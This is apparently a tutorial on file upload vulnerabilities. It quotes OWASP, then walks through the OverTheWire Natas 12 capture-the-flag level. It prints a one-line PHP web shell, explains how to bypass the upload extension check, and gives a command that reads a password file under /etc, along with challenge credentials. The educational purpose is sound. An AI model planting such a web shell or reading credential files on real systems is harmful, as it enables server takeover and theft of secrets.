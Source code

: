 # File upload vulnerability

## OWASP Description
Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system or database, forwarding attacks to back-end systems, client-side attacks, or simple defacement. It depends on what the application does with the uploaded file and especially where it is stored.

There are really two classes of problems here. The first is with the file metadata, like the path and file name. These are generally provided by the transport, such as HTTP multi-part encoding. This data may trick the application into overwriting a critical file or storing the file in a bad location. You must validate the metadata extremely carefully before using it.

The other class of problem is with the file size or content. The range of problems here depends entirely on what the file is used for. See the examples below for some ideas about how files might be misused. To protect against this type of attack, you should analyse everything your application does with files and think carefully about what processing and interpreters are involved.

## shell.php
```php
<?php
echo system($_GET["cmd"]);
?>
``` 


### Explore it yourself, make a PHP file to test the vulnerability locally in your system through localhost with the code mentioned above.
## Let's try a challenge

### NATAS 12 :
 - #### USERNAME : natas12
 - #### PASSWORD : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
 
 ![natas12](natas12.1.png)

You can see that we can upload a file here. Let's try to upload a file so that we can get a shell on the website.

Make the shell.php file. We can pass the commands through the URL.


Now let's upload the PHP file. But during the upload, we should change the .jpeg format to .php by intercepting the request.

![natas12](natas12.3.png)

Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.
</br></br>
The password for the next level will be in the folder /etc/natas_webpass/
where natas12 is the file containing the password.

## so...
```
.php?cmd=cat  /etc/natas_webpass/natas12
```

Gives the password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
</br></br>
![natas12](natas12.5.png)

## This is a basic example of File upload vulnerability.



